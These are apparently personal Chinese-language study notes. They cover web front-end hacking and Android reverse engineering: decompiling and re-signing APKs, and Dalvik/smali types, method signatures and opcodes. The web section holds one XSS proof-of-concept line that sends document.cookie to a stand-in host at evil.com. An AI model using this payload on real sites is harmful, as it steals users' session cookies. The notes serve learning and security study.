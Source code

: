 #  学习笔记
## 1. Web前端黑客技术揭秘
### POC理解&学习
1. XSS获取敏感信息：eval(‘new Image().src=“http://www.evil.com/steal.php?c=“+escape(document.cookie)')

## 2. Android逆向学习
### 基础知识
1. Davlik Android OS的虚拟机，Dalvik基于寄存器，Java VM基于栈，二者明显区别。Davlik专属文件执行格式dex，比Java JVM运行快，内存占用少。
2. 反编译 Apktool、dex2jar+jd-gui，最终修改APK需要操作.smali文件，然后再使用Apktool将修改的文件打包成APK，再使用 jarsigner进行APK签名：jarsigner -keystore name.keystore Folder keystorealias -keypass passwd
3. Davlik中寄存器32位，64位类型（Long/Double）用2个寄存器表示，字节码2中类型：原始类型、引用类型（包括对象和数组）
	- B- - -byte
	- C- - -char
	- D- - -double
	- F- - -float
	- I- - -int
	- J- - -long
	- S- - -short
	- V- - -void
	- Z- - -boolean
	- [XXX- - -array
	- Lxxx/yyy- - -object : LpackageName/objectName$subObjectName;
4. smali函数
	1.  hello()V —\> void hello()
	2. hello(III)Z —\> boolean hello(int,int,int)
	3. hello(Z[I[ILjava/lang/String;J)Ljava/lang/String; —\> String hello(boolean,int[],int[],String,long)
5. Smali基本语法
	1. .field private isFlag:z   定义变量  
		.field button_login:Landroid/widget/Button;
	2. .method  方法
		.method protected onCreate(Landroid/os/Bundle;)V  
	3. .parameter  方法参数
		.param p1, "name"    # Ljava/lang/String;
	4. .prologue  方法开始
	5. .line 36   此方法位于36行
	6. Invoke-super  调用父函数
	7. Return-void  函数返回void
	8. Move-result v0   上面函数执行的结果赋值给v0
	9. .end method 函数结束
	10. New-instance 创建实例
	11. Input-object  对象赋值
	12. Iget-object  调用对象
	13. Invoke-static  调用静态函数
	14. Invoke-virtual  调用函数
		invoke-virtual {p1, v0}, Ljava/lang/String;-\>equals(Ljava/lang/Object;)Z  
	15. Const-string  string赋值
		const-string v0, "snow"
6. smali的条件分支
	1. If-eq vA,vB,:cond\_\*\* 如果vA和vB相等，则跳转至cond\_\*\*  
	2. If-ne（不等于）、if-lt（小于）、if-ge（大于等于）、if-gt（大于）、if-le（小于等于）
	3. If-eqz v0:cond\_\*\* 如果V0等于0，则跳转至cond
	4. If-nez（不等于0）、if-ltz、if-gtz、if-gez、if-lez
